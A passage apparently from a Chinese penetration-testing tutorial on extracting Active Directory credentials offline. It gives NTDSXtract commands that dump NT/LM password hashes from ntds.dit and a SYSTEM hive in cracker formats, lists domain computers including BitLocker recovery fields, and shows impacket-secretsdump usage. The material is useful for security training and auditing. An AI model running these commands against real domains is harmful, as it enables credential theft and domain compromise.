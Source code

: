 datatable

link_table

system hive

这个工具的使用规则为：

dsusers.py    --syshive  --passwordhashes 

–pwdformat选项是选择以什么格式进行提取，有john(John format),ocl(oclHashcat),ophc(OphCrack)三个选项。

这个工具还会将所获得信息输出出来，这也方便了我们可以将信息写入到其他文件当中。

以oclHashcat格式提取所有NT和LM的hash，并将它们保存在”output”目录中的”ntout”和”lmout”中：

```
$ dsusers.py  ntds.dit.export/datatable.3 ntds.dit.export/link_table.5 output  --syshive systemhive --passwordhashes --pwdformat ocl --ntoutfile ntout  --lmoutfile lmout |tee all_user_info.txt
```

Ntdsxtract中还具有一个工具可以从分离出来的表中提取域中计算机信息。这对于离线分析目标信息是非常有用的。

在使用过程中，需要对它提供datatable,输出目录以及输出文件，格式为csv：

`$ dscomputers.py ntds.dit.export/datatable.3 computer_output --csvoutfile all_computers.csv` 执行完毕之后他会在all_computers.csv中写入所有域中计算机信息。如下：

```
head -n 1 computer_output/all_computers.csv
```

```
"Record ID";
"Computer name";
"DNS name";
"GUID";
"SID";
"OS name";
"OS version";
"When created";
"When changed";
"Bitlocker recovery name";
"Bitlocker recovery GUID";
"Bitlocker volume GUID";
"Bitlocker when created";
"Bitlocker when changed";
"Bitlocker recovery password";
"Dial-In Permission"
```

#### 2.3 使用 impacket 工具包导出散列值

https://github.com/SecureAuthCorp/impacket

```BASH
python setup.py install

impacket-secretsdump -system system.hive -ntds ntds.dit LOCAL
```
